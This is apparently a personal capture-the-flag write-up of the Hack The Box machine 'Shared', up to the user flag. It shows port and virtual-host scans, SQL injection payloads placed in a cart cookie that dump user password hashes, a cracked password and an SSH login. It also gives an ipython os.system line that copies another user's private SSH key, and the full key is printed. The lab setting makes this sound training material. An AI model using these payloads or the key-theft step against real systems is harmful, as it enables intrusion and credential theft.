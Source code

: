 # Shared

## User Flag



Drop an Nmap scan first things first.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-11 04:10 MDT
Nmap scan report for 10.10.11.172
Host is up (0.074s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://shared.htb
443/tcp open  ssl/http nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://shared.htb
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
| tls-alpn: 
|   h2
|_  http/1.1
| tls-nextprotoneg: 
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.78 seconds
```

We can see a 22, 80, and a 443 all live. Let's check out the web service after adding to our /etc/hosts: http://shared.htb:80 

One thing of note is that it port 80 redirects us to port 443.

Looks like a virtual store, tons of potential attack vectors.

Next, I chose to enumerate over potential virtual hosts using a subdomain wordlist and came up with a few hits.

```
ffuf -H "Host: FUZZ.shared.htb" -H "User-Agent: YourMom" -c -w "SecLists/Discovery/DNS/subdomains-top1million-110000.txt" -u "https://shared.htb/" -fs 169

www                     [Status: 302, Size: 0, Words: 1, Lines: 1]
checkout                [Status: 200, Size: 3229, Words: 1509, Lines: 65]
```

Obviously the 'www' one doesn't matter as much as 'checkout'. So let's add 'checkout.shared.htb' to our /etc/hosts.

When you visit checkout.shared.htb, you're greeted inputs for credit card information. Seems like a fun place to mess with next.

Oddly enough, after putting Burp Suite on intercept mode, when I tried to put dummy values through the credit card inputs, no post request is sent at all. We're going to keep this page in the back of our pocket.

One thing of note is that at the bottom of the page is that it's managed by PrestaShop.

### PrestaShop

Let's talk about Prestashop. It seems pretty promising actually.

```
PrestaShop is a freemium, open source e-commerce platform. 
The software is published under the Open Software License.
It is written in the PHP programming language with support for the MySQL database management system.
It has a software dependency on the Symfony PHP framework.
```

Google said it for me, based in PHP and with a MySQL database. This is excellent news. This means two things:

* The site will most likely natively run PHP code, leading to RCE.
* The site could be vulnerable to SQLi and we know the database.

A couple google searches lead us to a couple promising links we could study:

* https://packetstormsecurity.com/files/157277/Prestashop-1.7.6.4-XSS-CSRF-Remote-Code-Execution.html
* http://www.securityspace.com/smysecure/catid.html?id=1.3.6.1.4.1.25623.1.0.141886
* https://github.com/farisv/PrestaShop-CVE-2018-19126
* https://build.prestashop.com/news/major-security-vulnerability-on-prestashop-websites/

Looks like I was right about the SQLi vulnerability due to the last link, which directly discribes an SQL injection vulnerability. The PrestaShop team is even nice enough to disclose which lines *are* the vulnerability.

```
if (Configuration::get('PS_SMARTY_CACHING_TYPE') == 'mysql') {
    include _PS_CLASS_DIR_.'Smarty/SmartyCacheResourceMysql.php';
    $smarty->caching_type = 'mysql';
}
```

So, let's get to work and find a way to send in a SQL injection.

### SQLi

Now I've been poking around for a SQLi attack vector and it looks like a lot of the user inputs are duds. That being said, there is a PHPSESSID cookie and a custom_cart cookie (when you put an item in checkout) that looks kind of promising. Let's start sticking payloads in there.

So I switched to investigating the custom_cart cookie over on the checkout.shared.htb page and attempted to run some basic sqlmap scans with nothing quite turning up kosher.

So after some manual checking I've now narrowed down a payload that now makes the website return a content length of 3719 bytes rather than the regular 3345 bytes.

(The follow is inside the Burp request when visiting checkout.shared.htb.

```
Cookie: custom_cart={"yourmomfuckedyourdad' AND 1=2 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='user'-- a":"1"};
```

This payload here gets the server to return "id,username,password". Which is a great first start.

Now with this new payload that's based on the results that were returned from the previous results: I'm one step closer to my goal.

```
{"yourmomfuckedyourdad' AND 1=2 UNION SELECT 3,group_concat(id, 0x3a,username,0x3a,password),3 FROM user-- a":"3"}
```

That ends up spitting out the following:

*1:james_mason:fc895d4eddc2fc12f995e18c865cf273*

That looks like a id:username:password just like the previous SQL injection returned! That's great news! Let's shove the hash into a decrypter!!

So instead of using Hashcat or John the Ripper, I got lazy and used https://md5decrypt.net/en/ instead. We got the following results:

```
fc895d4eddc2fc12f995e18c865cf273 -> Soleil101
```

Looks like we might have just gotten our user!

The following should be our credentials:

```
james_mason:Soleil101
```

So let's go test them!!

### Securing the User Flag

Ran the following command and punched in our creds with success!

```
ssh james_mason@10.10.11.172
```

Also I'd like to point out that a pspy script is literally sitting in the machine for some reason. Anyways, let's get the user flag.

*OF COURSE IT WASN'T THIS EASY*

So the user flag is sitting is a user named dan_smith's home directory and when you try to read it you get a permission denied.

Well that sucks.

Okay so our next step is to run pspy and see what that lends us first.

So one thing I read online was to check ipython, which is running on UID=1001 and PID=4609. Because we're trying to break into dan_smith's account, this is interesting because danny boy's uid is 1001. (You can find this by checking /etc/passwd).

```
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```

So perhaps if ipython is running on 1001, then maybe we can utilize that to our advantage.

ipython is a command shell for incorperating multiple programming languages but was originally for python, hense the name.

Okay weird thing, I was tinkering around and I honestly don't know what I did, but I can now read dan smith's private ssh key for some reason just by running cat on it. I wish I could explain but I'm not mad.

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

No matter, let's get to work and secure that flag!

(This very well could have been done with the python script I put in the default ipython directory in james_mason's side that said this: "import os;os.system('cat ~/../dan_smith/.ssh/id_rsa > ~/dan_smith.key')" )

```
sudo chmod 400 dan_smith
ssh dan_smith@10.10.11.172 -i dan_smith
```

We're now signed in as Dan Smith!!

```
cat user.txt
```
